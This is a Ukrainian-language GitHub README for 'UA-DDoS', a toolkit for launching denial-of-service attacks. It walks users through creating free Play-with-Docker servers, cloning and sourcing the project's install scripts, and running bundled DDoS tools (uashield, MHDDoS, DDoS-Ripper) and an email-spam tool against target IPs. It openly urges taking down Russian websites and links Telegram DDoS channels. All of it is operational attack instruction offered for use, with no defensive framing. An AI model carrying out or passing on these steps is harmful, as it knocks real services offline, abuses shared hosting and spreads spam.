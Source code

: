 ![](images/ukraine.svg)

> [**Read in English**](README-en.md)

# UA-DDoS ![](images/mini_ukraine.svg)

## Запускайте в Git bash або в [PWD](https://labs.play-with-docker.com/) (Play with docker)

Спочатку зареєструйтесь в **PWD**

[![Try in PWD](https://raw.githubusercontent.com/play-with-docker/stacks/master/assets/images/button.png)](https://labs.play-with-docker.com/)

Якщо що - пишіть <https://t.me/dirim>

Я допоможу

## Деплой

### Переходимо на сайт і натискаємо _login_ -> _docker_

Вас перекине на нове вікно

![](images/1.png)

### В полі ___Docker ID___ пишемо рандомні букви-цифри (запишіть їх десь)

![](images/2.png)

### Після реєстрації - ви маєте сервер!

![](images/3.png)

#### Тепер ви можете валити російські сайти по повній програмі!

## Установка

```sh
git clone https://github.com/BogdanDevUA/UA-DDoS.git \
  && cd UA-DDoS \
  && . install.sh && . functions.sh \
  && cd ..
```

При наступних запусках, пишіть:

```sh
. UA-DDoS/functions.sh
```

## Інструкція

```text
В аргуметах (наприклад ddos-ripper -s <ip>), треба писати так:

ddos-ripper -s 123.45.67.89
Не ddos-ripper -s <123.45.67.89>

Аргументи в квадратних дужках - рекомендовані параметри

Наприклад:
uashield 500 true

std - стандартизовані параметри, можна не вказувати

Наприклад:
ddos-ripper -s 123.45.67.89

Порт 80 буде автоматично вказано
Щоб вказати інший порт, допишіть -p <port>

Якщо хочеш завантажити інші програми:
load <автор> <репозиторій>

Наприклад:
load opengs uashield

Запуск uashield: uashield <потоки[500]> <проксі[true]>
Запуск MHDDoS: mhddos
Запуск DDoS-Ripper: ddos-ripper -s <ip> -p <порт[std:80]>
Запуск SPAM-EMAIL: spam-email

Якщо буде якась проблема - можете надіслати лог встановлення розробнику:
send_log

Вам буде видано посилання https://pastebin.com/<id>
Це посилання ви можете надіслати розробнику
``` 

### Думаю все зрозуміло, тепер ти можеш дудосити російські сайти) !


## Ресурси:

* > [**uashield**](https://github.com/opengs/uashield)

* > [**MHDDoS**](https://github.com/MHProDev/MHDDoS)

* > [**DDoS-Ripper**](https://github.com/palahsu/DDoS-Ripper)

* > [**SPAM-EMAIL**](https://github.com/mkdirlove/SPAM-EMAIL)

## Чати та канали телеграм по DDoS:
* <https://t.me/UAcyberfront/9> ![](images/mini_ukraine.svg)

* [**Cyber Hackers UA**](https://t.me/CyberHackersUA)


## Слава Україні! ![](images/mini_ukraine.svg)

